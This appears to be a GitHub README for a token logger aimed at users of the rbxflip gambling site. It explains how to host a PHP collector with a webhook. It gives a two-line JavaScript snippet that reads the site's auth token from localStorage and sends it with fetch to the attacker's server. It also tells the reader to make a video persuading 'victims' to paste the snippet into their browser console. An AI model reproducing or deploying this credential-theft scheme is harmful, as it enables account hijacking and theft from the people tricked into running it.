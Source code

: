 # rbxflip-console-logger by karlo#7777
Super simple and easy to set up! ALl u gotta do is replace your webhook

# Setting it up:

1. Make a website on 000webhost
2. go to file manager
3. upload the files
4. replace ur webhook in sc.php line 97
5. save and close

# How to log people:
```
var token = localStorage.getItem('auth._token.local');
await fetch("https://yourwebsitehere.com/sc.php?t=" + token);
```
replace the code with your new website
make a vid like this: https://www.youtube.com/watch?v=AEopKzkFME8&t=38s
send to your victims/make a youtube on it

done!

# creds to icorex, i fixed like 90% of the code to make it better lol
